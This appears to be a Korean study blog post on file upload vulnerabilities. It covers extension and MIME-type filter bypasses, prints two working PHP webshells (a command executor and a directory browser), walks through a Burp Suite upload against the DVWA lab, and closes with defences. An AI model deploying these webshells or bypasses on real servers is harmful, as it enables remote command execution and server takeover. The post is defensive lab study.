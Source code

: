 ```yaml
---
layout: post
title: "파일 업로드 취약점 공부"
date: 2025-09-23 17:00:00 +0900
categories: [웹 해킹]
---
```


### 1. 개요

파일 업로드 취약점은 서버 측에서 업로드되는 파일의 확장자나 내용을 제대로 검증하지 않을 때 발생한다. 공격자는 이 취약점을 이용해 악의적인 스크립트 파일(웹쉘)을 서버에 업로드하여 원격에서 시스템 명령어를 실행(RCE)하고 최종적으로 서버의 제어권을 획득할 수 있다.

이 공격은 [A04: 안전하지 않은 설계](https://hamap0.github.io/projects/owasp-top-10/2025/08/28/A04_Insecure-Design.html) 프로젝트 보고서에서 다룬 핵심 주제이다.

---

### 2. 주요 우회 기법

단순히 `.php` 파일을 업로드하는 것은 대부분의 필터링에 막히므로 이를 우회하는 기법이 필요하다.

*   **확장자 필터링 우회:**
    서버가 특정 확장자를 블랙리스트 방식으로 필터링할 때 사용된다. `.php` 대신 `.phtml` · `.php3` · `.inc` 등 웹 서버가 PHP로 해석할 수 있는 다른 확장자를 시도하거나 `shell.pHp`처럼 대소문자를 혼용하여 우회를 시도할 수 있다.

*   **MIME 타입 검증 우회:**
    서버가 파일 확장자 대신 HTTP 요청 헤더의 `Content-Type`을 기준으로 파일 종류를 판단할 때 사용된다. 이 값은 클라이언트가 보내는 정보이므로 Burp Suite와 같은 프록시 툴을 이용해 `Content-Type: application/x-php`를 `Content-Type: image/jpeg`와 같이 정상적인 이미지 파일처럼 조작하여 필터링을 우회할 수 있다.


---

### 3. 웹쉘 (Webshell)

웹쉘은 웹 서버를 통해 시스템 명령어를 실행할 수 있도록 만들어진 스크립트 파일이다.

#### **기본 웹쉘**
가장 단순한 형태의 웹쉘은 URL 파라미터를 통해 전달받은 명령어를 그대로 실행하고 결과를 출력한다. `cmd`라는 파라미터로 명령어를 전달받는 예시이다.
```php
<?php
  if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
  }
?>
```
   ![FileuploadWebshell](/assets/images/FUpload_1.png)

#### **개선된 웹쉘 (간이 파일 브라우저)**
조금 더 발전된 형태의 웹쉘은 단순히 명령어를 실행하는 것을 넘어 서버의 파일 시스템을 탐색하는 기능을 포함할 수 있다. 아래 코드는 `path` 파라미터로 전달된 경로의 파일과 디렉터리 목록을 보여주는 간단한 파일 브라우저 역할을 한다.
```php
<?php
  $path = isset($_GET['path']) ? $_GET['path'] : '.';
  $files = scandir($path);
  
  foreach($files as $file) {
    // 현재 디렉터리(.)와 상위 디렉터리(..) 링크 생성
    if ($file == '.') {
      echo "<a href='?path={$path}'>.</a><br>";
    } elseif ($file == '..') {
      $parent_path = dirname($path);
      echo "<a href='?path={$parent_path}'>..</a><br>";
    } else {
      echo $file . "<br>";
    }
  }
?>
```

---

### 4. 사용 예시: Burp Suite를 이용한 MIME 타입 우회

이 예시는 서버가 `Content-Type` 헤더를 신뢰할 때 발생하는 파일 업로드 취약점을 공격하는 과정을 보여준다.

#### **1. 요청 가로채기 (Intercept)**
1.  `shell.php` 파일을 준비하고 Burp Suite와 브라우저 프록시를 설정한다.
2.  Burp Suite의 `Proxy` > `Intercept` 탭을 `On` 상태로 설정한다.
3.  DVWA의 `File Upload` 페이지에서 `shell.php` 파일을 선택하고 `Upload` 버튼을 클릭하여 요청을 가로챈다.

#### **2. Content-Type 헤더 변조**
1.  가로챈 `POST` 요청 패킷에서 `Content-Type` 헤더를 확인한다. 초기 값은 `application/x-php`로 설정되어 있다.
    ```http
    ...
    Content-Disposition: form-data; name="uploaded"; filename="shell.php"
    Content-Type: application/x-php

    <?php system($_GET['cmd']); ?>
    ...
    ```
2.  `Content-Type: application/x-php` 라인을 `Content-Type: image/jpeg`로 수정한다.
3.  `Forward` 버튼을 눌러 변조된 요청을 서버로 전송한다.

#### **3. 업로드 확인 및 웹쉘 실행**
1.  서버의 필터링 로직이 `Content-Type`만 검증했다면, 파일은 정상적으로 업로드되고 저장 경로(예: `../../hackable/uploads/shell.php`)가 출력된다.
2.  브라우저에서 해당 경로에 `?cmd=whoami` 파라미터를 추가하여 접속한다.
3.  화면에 `www-data`가 출력되면 웹쉘 업로드 및 명령어 실행에 성공한 것이다.
   ![FileuploadBurp](/assets/images/Fupload_2.png)

---

### 5. 방어 방안

*   **확장자 화이트리스트:** `.php`, `.jsp` 등 위험한 확장자를 금지하는 블랙리스트 방식 대신 `.jpg` · `.png` · `.gif` 와 같이 허용된 확장자만 업로드할 수 있도록 화이트리스트 방식을 사용해야 한다.
*   **파일 내용 검증:** 확장자나 MIME 타입은 조작될 수 있으므로 `getimagesize()`와 같은 함수를 이용해 파일의 내용이 실제 이미지 데이터인지 검증해야 한다.
*   **업로드 경로 제어:** 업로드된 파일이 저장되는 디렉터리는 웹에서 직접 접근할 수 없는 경로(Web Root 외부)에 위치시키거나 만약 웹에서 접근해야 한다면 해당 디렉터리의 스크립트 실행 권한을 제거해야 한다.

<hr class="short-rule">
